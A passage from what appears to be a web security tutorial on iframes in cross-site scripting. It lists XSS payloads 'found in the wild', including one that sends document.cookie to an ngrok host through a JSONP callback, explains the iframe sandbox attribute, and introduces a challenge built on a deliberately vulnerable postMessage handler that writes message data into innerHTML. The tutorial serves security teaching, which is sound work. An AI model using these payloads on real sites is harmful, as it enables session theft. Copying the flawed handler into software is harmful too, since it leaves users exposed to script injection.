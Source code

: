 ```python

if __name__ == "__main__":
    app.run()
```

### Other Payloads found on the wild <a href="#other_payloads_found_on_the_wild_64" id="other_payloads_found_on_the_wild_64"></a>

```html
<!-- This one requires the data: scheme to be allowed -->
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
<!-- This one injects JS in a jsonp endppoint -->
<iframe srcdoc='<script src="/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
<!-- sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)-->
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```

### Iframe sandbox

The `sandbox` attribute enables an extra set of restrictions for the content in the iframe. **By default, no restriction is applied.**

When the `sandbox` attribute is present, and it will:

* treat the content as being from a unique origin
* block form submission
* block script execution
* disable APIs
* prevent links from targeting other browsing contexts
* prevent content from using plugins (through `<embed>`, `<object>`, `<applet>`, or other)
* prevent the content to navigate its top-level browsing context
* block automatically triggered features (such as automatically playing a video or automatically focusing a form control)

The value of the `sandbox` attribute can either be empty (then all restrictions are applied), or a space-separated list of pre-defined values that will REMOVE the particular restrictions.

```html
<iframe src="demo_iframe_sandbox.htm" sandbox></iframe>
```

## Iframes in SOP-1

In this [**challenge**](https://github.com/terjanq/same-origin-xss) created by [**NDevTK**](https://github.com/NDevTK) and [**Terjanq**](https://github.com/terjanq) you need you need to exploit a XSS in the coded

```javascript
const identifier = '4a600cd2d4f9aa1cfb5aa786';
onmessage = e => {
  const data = e.data;
  if (e.origin !== window.origin && data.identifier !== identifier) return;
  if (data.type === 'render') {
    renderContainer.innerHTML = data.body;
  }
}
```
